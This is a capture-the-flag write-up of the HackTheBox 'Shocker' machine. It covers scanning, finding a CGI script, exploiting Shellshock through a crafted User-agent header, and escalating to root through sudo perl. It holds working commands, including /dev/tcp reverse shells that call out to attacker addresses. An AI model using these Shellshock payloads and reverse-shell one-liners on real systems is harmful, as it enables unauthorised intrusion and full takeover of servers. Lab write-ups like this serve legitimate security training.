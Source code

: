 # Shocker [HTB](https://app.hackthebox.com/machines/108)

![shocker-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/shocker-01.png)

## Recon

Lets add the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/hosts-02.png)


Now we can use `nmap` to scan the target:

```bash
nmap -sC -sV -A -p- shocker.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/nmap-res-03.png)

We have the following:

+ An Apache V2.4.18 Server on port 80.
+ An SSH server on port 2222.


Lets take a look at the web server and see what we can find. 


## Apache port 80

Lets open our browser and navigate towards `http://shocker.htb`

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/site-04.png)

Not much to see or do here, lets try directory busting:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/common.txt:FUZZ  -u http://shocker.htb/FUZZ
```

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/ffuf-05.png)


We can see we have a few interesting results. Primarly, the scan confirmed that CGI is enabled on the 
target. We could potentially exploit this. 

Certain versions of Bash incorrectly execute commands that follow function definitions stored inside environment variables - this can be exploited by an attacker in systems that store user input in environment variables.

On such scenario is with cgi scripts. Sometimes cgi scripts store data received from HTTP headers inside 
enviorenment varaibles in order to generate dynamic content. Since we can control the data passed in the 
HTTP headers, we can leverage this to gain RCE.

To pull this off, we need to find a valid cgi script we can execute via the browser. From the `ffuf` scan
we can see that we dont have permissions to view the contents of the `cgi-bin` directory, so we have to 
enumerate some more. 

I use `ffuf` again, this time adding the `-e` switch to scan for possible file extensions:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.
txt -u http://shocker.htb/cgi-bin/FUZZ -e .cgi,.php,.sh,.py,.pl
```

![script-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/script-06.png)


We got something. Lets check if its vulnerable:

```bash
curl http://shocker.htb/cgi-bin/user.sh -i -H "User-agent: () { :;}; echo; echo pwned"
```

![vuln-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/vuln-07.png)

It is. Now we can use a one liner reverse shell to get access to the system. 

First set up the listener: 

```
rlwrap nc -lnvp 443
```

Exploit with:

```
curl http://shocker.htb/cgi-bin/user.sh -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.117/443 0>&1"
```

![shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/shell-08.png)


## Privilege Escalation

Lets look for easy wins, like our `sudo` permissions:

```bash
sudo -l
```

![sudo-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/sudo-09.png)


WE can see we are allowed to run Perl. If we can run a scripting language as root, escalation is fairly trivial:

```perl
sudo perl -e 'exec "/bin/sh";'
```

![root-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/root-10.png)


From here we can setup another `nc` listener and upgrade this shell with:

```bash
bash -i >& /dev/tcp/<kali-ip>/9001 0>&1
```

![full-root-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/full-root-11.png)

